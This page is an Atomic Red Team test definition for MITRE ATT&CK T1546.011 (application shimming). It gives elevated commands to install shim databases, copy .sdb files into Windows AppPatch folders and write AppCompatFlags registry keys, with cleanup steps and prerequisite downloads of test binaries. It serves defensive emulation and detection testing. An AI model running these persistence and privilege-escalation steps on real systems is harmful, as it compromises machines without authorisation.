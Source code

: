 # T1546.011 - Event Triggered Execution: Application Shimming

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/011)

<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by application shims. The Microsoft Windows Application Compatibility Infrastructure/Framework (Application Shim) was created to allow for backward compatibility of software as the operating system codebase changes over time. For example, the application shimming feature allows developers to apply fixes to applications (without rewriting code) that were created for Windows XP so that it will work with Windows 10. (Citation: Elastic Process Injection July 2017)

Within the framework, shims are created to act as a buffer between the program (or more specifically, the Import Address Table) and the Windows OS. When a program is executed, the shim cache is referenced to determine if the program requires the use of the shim database (.sdb). If so, the shim database uses hooking to redirect the code as necessary in order to communicate with the OS.

A list of all shims currently installed by the default Windows installer (sdbinst.exe) is kept in:

- <code>%WINDIR%\AppPatch\sysmain.sdb</code> and
- <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\installedsdb</code>

Custom databases are stored in:

- <code>%WINDIR%\AppPatch\custom & %WINDIR%\AppPatch\AppPatch64\Custom</code> and
- <code>hklm\software\microsoft\windows nt\currentversion\appcompatflags\custom</code>

To keep shims secure, Windows designed them to run in user mode so they cannot modify the kernel and you must have administrator privileges to install a shim. However, certain shims can be used to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) (UAC and RedirectEXE), inject DLLs into processes (InjectDLL), disable Data Execution Prevention (DisableNX) and Structure Exception Handling (DisableSEH), and intercept memory addresses (GetProcAddress).

Utilizing these shims may allow an adversary to perform several malicious acts such as elevate privileges, install backdoors, disable defenses like Windows Defender, etc. (Citation: FireEye Application Shimming) Shims can also be abused to establish persistence by continuously being invoked by affected programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Application Shim Installation](#atomic-test-1---application-shim-installation)

- [Atomic Test #2 - New shim database files created in the default shim database directory](#atomic-test-2---new-shim-database-files-created-in-the-default-shim-database-directory)

- [Atomic Test #3 - Registry key creation and/or modification events for SDB](#atomic-test-3---registry-key-creation-andor-modification-events-for-sdb)

<br/>

## Atomic Test #1 - Application Shim Installation

Install a shim database. This technique is used for privilege escalation and bypassing user access control.
Upon execution, "Installation of AtomicShim complete." will be displayed. To verify the shim behavior, run
the AtomicTest.exe from the <PathToAtomicsFolder>\\T1546.011\\bin directory. You should see a message box appear
with "Atomic Shim DLL Test!" as defined in the AtomicTest.dll. To better understand what is happening, review
the source code files is the <PathToAtomicsFolder>\\T1546.011\\src directory.

**Supported Platforms:** Windows

**auto_generated_guid:** 9ab27e22-ee62-4211-962b-d36d9a0e6a18

#### Inputs:

| Name      | Description                    | Type   | Default Value                                                   |
| --------- | ------------------------------ | ------ | --------------------------------------------------------------- |
| file_path | Path to the shim database file | string | PathToAtomicsFolder&#92;T1546.011&#92;bin&#92;AtomicShimx86.sdb |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
sdbinst.exe "#{file_path}"
```

#### Cleanup Commands:

```cmd
sdbinst.exe -u "#{file_path}" >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: Shim database file must exist on disk at specified location (#{file_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path "#{file_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.011/bin/AtomicShimx86.sdb" -OutFile "#{file_path}"
```

##### Description: AtomicTest.dll must exist at c:\Tools\AtomicTest.dll

##### Check Prereq Commands:

```powershell
if (Test-Path c:\Tools\AtomicTest.dll) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path c:\Tools\AtomicTest.dll) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.011/bin/AtomicTest.dll" -OutFile c:\Tools\AtomicTest.dll
```

<br/>
<br/>

## Atomic Test #2 - New shim database files created in the default shim database directory

Upon execution, check the "C:\Windows\apppatch\Custom\" folder for the new shim database

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows

**auto_generated_guid:** aefd6866-d753-431f-a7a4-215ca7e3f13d

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Copy-Item "$PathToAtomicsFolder\T1546.011\bin\T1546.011CompatDatabase.sdb" C:\Windows\apppatch\Custom\T1546.011CompatDatabase.sdb
Copy-Item "$PathToAtomicsFolder\T1546.011\bin\T1546.011CompatDatabase.sdb" C:\Windows\apppatch\Custom\Custom64\T1546.011CompatDatabase.sdb
```

#### Cleanup Commands:

```powershell
Remove-Item C:\Windows\apppatch\Custom\T1546.011CompatDatabase.sdb -ErrorAction Ignore
Remove-Item C:\Windows\apppatch\Custom\Custom64\T1546.011CompatDatabase.sdb -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Registry key creation and/or modification events for SDB

Create registry keys in locations where fin7 typically places SDB patches. Upon execution, output will be displayed describing
the registry keys that were created. These keys can also be viewed using the Registry Editor.

https://www.fireeye.com/blog/threat-research/2017/05/fin7-shim-databases-persistence.html

**Supported Platforms:** Windows

**auto_generated_guid:** 9b6a06f9-ab5e-4e8d-8289-1df4289db02f

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1546.011" -Value "AtomicRedTeamT1546.011"
New-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1546.011" -Value "AtomicRedTeamT1546.011"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Custom" -Name "AtomicRedTeamT1546.011" -ErrorAction Ignore
Remove-ItemProperty -Path HKLM:"\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\InstalledSDB" -Name "AtomicRedTeamT1546.011" -ErrorAction Ignore
```

<br/>

